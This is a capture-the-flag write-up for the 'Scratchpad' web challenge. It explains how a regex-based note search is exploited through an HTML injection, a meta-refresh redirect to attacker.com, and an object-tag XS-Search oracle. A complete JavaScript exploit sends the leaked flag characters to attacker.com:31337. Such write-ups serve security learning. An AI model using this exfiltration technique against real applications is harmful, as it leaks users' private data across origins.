


# Scratchpad (web, 324p, 19 solves)


Scratchpad is Web challenge implementing a simple note taking application where you can authenticate, register, create/delete/edit and **report** a note composed of a title and a description.

The application source code is available here:

[sources](./files/sources)

Reporting a note will make the admin authenticate with his credentials and consume the note with a **firefox** browser:

```typescript
const driver = new Builder()
  .forBrowser("firefox")
  .setFirefoxOptions(
    new firefox.Options()
      .headless()
      .setAlertBehavior(UserPromptHandler.DISMISS) as firefox.Options
  )
  .build();
try {
  console.log("Logging in");
  await driver.get(new URL("/login", baseUrl).toString());
  let el = await driver.findElement(By.id("name"));
  await el.sendKeys("admin");
  el = await driver.findElement(By.id("password"));
  await el.sendKeys(adminPassword);
  el = await driver.findElement(By.id("submit"));
  await el.click();

  console.log("Visiting report");
  await driver.get(new URL(`/notes/${id}`, baseUrl).toString());
  await driver.sleep(30 * 1000);
} finally {
  await driver.quit();
}
```

On the top left corner we also noticed this search bar linked to a specific `POST` form.


Creating a simple note with `` shows that the note renderer template is vulnerable to XSS:



However, the CSP in place does not allow us inject any type of script, image, iframe or object pointing on something else than self (it is very strict):

```http
Content-Security-Policy: default-src 'none';
                         style-src 'self';
                         img-src 'self';
                         form-action 'self';
                         base-uri 'none';
```

> We know the flag is in the admin notes, and there is an "IDOR" on the `/notes/:id` endpoint. Even if an UUID is unique enough, if we can leak it, we can access the content of the admin note.

```typescript
import * as assert from "assert";
import * as massive from "massive";
import utils from "./utils";

assert.ok(process.env.ADMIN_PASSWORD, "ADMIN_PASSWORD is not set");
assert.ok(process.env.FLAG, "FLAG is not set");
assert.ok(process.env.DB, "DB is not set");

async function main() {
  const db = await massive(process.env.DB);

  // Creates admin use
  const user = await db.users
    .insert({
      name: "admin",
      password: utils.hashPassword(process.env.ADMIN_PASSWORD),
    })
    .catch(console.log);

  // Insert flag
  await db.notes.insert({
    user_id: user.id,
    title: "Flag",
    content: process.env.FLAG,
    favourite: true,
  });
}

main();
```

## Going deeper

Trying a few things on the `q` parameter to search note, we found that the parameter is being translated as a regex by the massiveJS "ORM". This allows us to perform simple queries such as.

```shell
# Having a note with 'abcdefghijklmnopqrst' as name/description

http://scratchpad.hackable.software:3000/notes?q=a.*    -> 200
http://scratchpad.hackable.software:3000/notes?q=ab.*   -> 200
http://scratchpad.hackable.software:3000/notes?q=abc.*  -> 200
http://scratchpad.hackable.software:3000/notes?q=abz.*  -> 404
http://scratchpad.hackable.software:3000/notes?q=abcd.* -> 404
```

We can use the `object` tag in firefox to get an oracle and perform XSS Search if we are able to redirect the user on our own domain.

[https://twitter.com/k33r0k/status/1247381548384518144](https://twitter.com/k33r0k/status/1247381548384518144)

To perform a redirect with the in place CSP, we used the `meta` tag method:

```html
<meta http-equiv="refresh" content="0;URL='http://attacker.com:31337/'" />
```

The victim is now on our domain, executing our javascript/html.

```html
<object data=http://scratchpad.hackable.software:3000/notes?q=D.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dg.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgr.* onerror=willbecalled()></object>
<object data=http://scratchpad.hackable.software:3000/notes?q=Dgx.* onerror=willnotbecalled()></object>
```

If a 404 error occurs, the onerror callback will be call. Otherwise, we can leak the found character.

We can automate this oracle to leak the flag:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8" />
  </head>
  <body>
    <div id="container"></div>
    <script src="main.js"></script>
  </body>
</html>
```

```javascript
const BASE = "http://scratchpad.hackable.software:3000/notes?q=";

const LEAK_URL = "http://attacker.com:31337/?found=";

const RANGE = { min: 0, max: 0x7f };

function escapeRegExp(string) {
  return string.replace(/[.*+\-?^${}()|[\]\\]/g, "\\$&"); // $& means the whole matched string
}

async function leak(content) {
  return await fetch(`${LEAK_URL}${content}`);
}

async function addObject(url, callback) {
  const o = document.createElement("object");
  o.setAttribute("data", url);
  o.setAttribute("style", "width: 100%;height: 300px;");

  o.addEventListener("error", callback);

  const container = document.getElementById("container");

  container.appendChild(o);
}

function getHex(n) {
  const h = (s) => ("00" + s.toString(16)).substr(-2);
  return `\\x${h(n)}`;
}

async function checkRange(prefix, min, max) {
  console.log(`checkRange(${prefix}, ${min}, ${max})`);

  // We found a valid char, leak it, and go for the next one
  if (min === max) {
    const ch = String.fromCharCode(min);
    await leak(prefix + ch);
    return await checkRange(prefix + ch, RANGE.min, RANGE.max);
  }

  const half = Math.floor((min + max) / 2);

  const testRange = async (prefix, min, max, err) => {
    const payload = `${escapeRegExp(prefix)}[${getHex(min)}-${getHex(max)}]`;
    await addObject(BASE + encodeURIComponent(payload), err);
  };

  // Test the first half
  await testRange(prefix, min, half, async () => {
    await checkRange(prefix, half + 1, max);
  });

  // Test the second half
  await testRange(prefix, half + 1, max, async () => {
    await checkRange(prefix, min, half);
  });
}

async function main() {
  // DrgnS{NoSameSiteCookiesByDefault?!}
  return await checkRange("DrgnS", RANGE.min, RANGE.max);
}

main();
```

Reporting our note containing the `meta` tag will redirect the admin on our page. The page will then generate enough `object` tags to leak all the character of the flag using XSSSearch:


